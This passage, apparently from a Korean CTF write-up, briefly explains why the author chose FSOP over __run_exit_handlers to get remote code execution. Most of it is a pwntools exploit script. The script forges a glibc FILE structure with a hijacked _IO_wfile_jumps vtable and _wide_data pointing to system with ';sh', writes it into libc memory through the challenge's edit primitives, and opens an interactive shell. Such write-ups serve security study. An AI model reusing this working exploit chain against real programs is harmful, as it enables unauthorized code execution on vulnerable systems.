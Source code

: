 마지막 RCE만 남았다.<br>
처음에는 `__run_exit_handlers`를 이용하려고 했으나, 문제는 `sys_exit`이 호출되면서 프로그램이 종료된다는 점이었다.
따라서 FSOP로 끝냈다.

```python
        def build(start, body):
            ptr = start
            body = body + b"\x00" * (8 - len(body) % 8)
            for i in range(len(body) // 8):
                if body[i * 8 : (i + 1) * 8] == b"\x00" * 8:
                    ptr += 8
                    continue

                edit_reserv(4, p64(1), p64(ptr))
                edit_reserv(1, body[i * 8 : (i + 1) * 8], p64(0))
                ptr += 8

        def build_fakefs(fs_target_addr):
            wfile_jumps = le.symbols["_IO_wfile_jumps"]
            distance = 0x150
            fs = FileStructure()
            fs.flags = 0x00000000FBAD2080 | int.from_bytes(b";sh", "little") << (4 * 8)
            fs._IO_write_base = 0
            fs._IO_buf_base = 0
            fs._lock = libc + le.bss() + 0x1000
            fs.vtable = libc + wfile_jumps + 0x18 - 0x38  # this
            fs._wide_data = fs_target_addr + distance
            wide_data = b""
            wide_data += p64(0)  # read ptr
            wide_data += p64(0)  # read end
            wide_data += p64(0)  # read base
            wide_data += p64(0)  # write base
            wide_data += p64(0)  # write ptr
            wide_data += p64(0)  # write end
            wide_data += p64(0)  # buf base
            wide_data += p64(0)  # buf end
            wide_data += p64(system)  # save base 0x40
            wide_data += b"\x00" * (0xE0 - len(wide_data))
            wide_data += p64(fs_target_addr + distance + 0x40 - 0x68)

            fakefs = b""
            print(fs)
            fakefs += bytes(fs)
            fakefs += b"\x00" * (distance - len(fakefs))  # padding to 0x150
            fakefs += wide_data
            return fakefs

        write_target = libc + 0x21C010
        build(write_target, build_fakefs(write_target))

        # trigger
        overwrite_nextheap(4, p64(0x404020))
        # edit_reserv(4, p64(1), p64(0x404020))

        # edit_reserv(2, p64(write_target) + p64(0), p64(write_target))
        p.sendlineafter(b">>> ", b"3")
        p.sendlineafter(b">>> ", str(2).encode())
        p.sendafter(b">>> ", p64(write_target))
        p.interactive()
```
